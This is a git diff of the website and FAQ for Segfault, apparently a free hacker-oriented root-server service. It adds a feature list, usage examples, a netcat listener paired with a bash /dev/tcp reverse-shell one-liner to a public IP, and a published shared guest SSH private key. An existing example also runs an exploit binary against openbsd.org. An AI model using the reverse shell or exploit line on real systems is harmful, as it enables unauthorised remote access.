

revport

Changed region(s): [[0.0, 0.0, 0.9846, 1.0]]

diff --git a/segfault/index.md b/segfault/index.md
@@ -23,7 +23,8 @@ Segfault offers free unlimitd Root Servers. A new server (inside a Virtual Machi
 
 * Dedicated ```Root Server``` for every user.
 * Pre-installed tools on Kali-Linux.
-* Outgoing traffic is routed through NordVPN/CryptoStorm/ProtonVPN.
+* Outgoing traffic is routed through NordVPN/CryptoStorm/Mullvad.
+* Reverse TCP/UDP port on a public IP.
 * Transparent TOR to connect to ```.onion``` addresses.
 * Log in via ```.onion```, ```.gsocket``` or direct ```ssh```.
 * Encrypted DNS traffic (DNS over HTTPS).
@@ -37,36 +38,36 @@ Segfault offers free unlimitd Root Servers. A new server (inside a Virtual Machi
 
 The servers are a great place to compile *stuff* and to test *stuff*.
 
-Install any app you like:
+**Install any app you like:**
 ```shell
 apt install nmap && nmap -thc
 ```
 
-Work the Internet
+**Work the Internet**
 ```shell
-ping -c 3 1.1.1.1
+ping 1.1.1.1
 curl ipinfo.io | jq
 ssh blah@anotherserver.com
 ./7350-sshx3-expl openbsd.org
 ```
 
-Publish your webpage on the Darknet:
+**Publish your webpage on the Darknet:**
 ```shell
 echo "My First File Shared on The Onion Router (TOR) network" >/onion/helloworld.txt
 ```
 
-Work the DarkNet:
+**Work the DarkNet:**
 ```shell
 lynx http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/
 ssh root@ta6kb6vqm3vd7vlgvf7k4nbhfzst2yfy52t6dqzmz2plteewn7ynmtad.onion
 ```
 
-Connect to IRCNet:
+**Connect to IRCNet:**
 ```shell
 ssh -t root@segfault.net 'su user -c "irssi -c ircnet -n MyNickName"'
 ```
 
-We allow port forwarding and proxies:
+**We allow port forwarding and proxies:**
 ```shell
 ssh -D 1080 root@segfault.net
 # then from another Terminal on your workstation:
@@ -74,9 +75,19 @@ curl -x socks5h://0 ipinfo.io
 curl -x socks5h://0 http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/ 
 ```
 
+**Connect to your own public PORT:**  
+```shell
+# On your server:
+nc -vnlp 34868 # See your log in screen to find your IP & PORT
+```
+```shell
+# On another server start a connect back reverse shell to your IP & PORT:
+setsid bash -i &>/dev/tcp/185.117.118.23/34868 0>&1 &
+```
+
 ### How it works
 
-To learn more catch me on [Telegram](https://t.me/thcorg) or read the source at [https://github.com/hackerschoice/segfault](https://github.com/hackerschoice/segfault).
+Read the [FAQ](faq) and join us on [Telegram](https://t.me/thcorg) or read the source on [GitHub](https://github.com/hackerschoice/segfault).
 
 This is a **free service** and there are [some restrictions](youcheapfuck) in place. You may want to [pay for an upgrade and go unrestricted](buy-an-upgrade).
 

diff --git a/segfault/faq/index.md b/segfault/faq/index.md
@@ -10,11 +10,28 @@ layout: default
 <a id="lost"></a>
 1. **My Question is not answered here**  
    Join our [Telegram channel](https://t.me/thcorg) and ask your question. We will try to answer.
+1. **Log in without password**  
+Save this SSH key to `~/.ssh/id_sf`. 
+```
+-----BEGIN OPENSSH PRIVATE KEY-----
[4 lines of base64/hex data omitted]
+DRP7IewHgdMExwmoLY62AAAAAAECAwQF
+-----END OPENSSH PRIVATE KEY-----
+```
+The same key is also available at /config/guest/id_ed25519. Thereafter use this command to log in:
+```
+ssh -i ~/id_sf root@segfault.net
+```
 1. **Why are my changes lost?**  
    Data in your home directory and in /sec, /onion and /everyone is permanent and wont get lost (unless you delete it). Data in (/usr, /tmp, ...) is only valid for the duration of the session and will disappear when you log out. Chances are that you used `apt install` and got a warning. You can use `apt install` but the package can only be used until you log out. Instead tell us and we will install the package to the core system and make it permanentally available. Alternativly you can install any package to `/sec/usr` and it wont get lost when you log out.
 <a id="quota"></a>
-1. **Why do I get resource errors**  
-   You likely got `out of heap memory`, `resource temporarily unavailable` or `Disk quota exceeded`. The FREE service is [restricted](../youcheapfuck). You can upgrade your server and [enjoy unlimited resources](../buy-an-upgrade).
+1. **Why do I get resource errors / Why so slow**  
+   You likely got `out of heap memory`, `resource temporarily unavailable` or `Disk quota exceeded`. The FREE service is [restricted](../youcheapfuck) and the outbound traffic is throttled. Upgrade your server and [enjoy unlimited resources](../buy-an-upgrade).
+1. **I get an SSH error**  
+   Likely you got `Bad configuration option: setenv` when trying to log in to your existing server. You need to update your OpenSSH client to a newer version (`ssh -V`).
 
 ### Contact
 
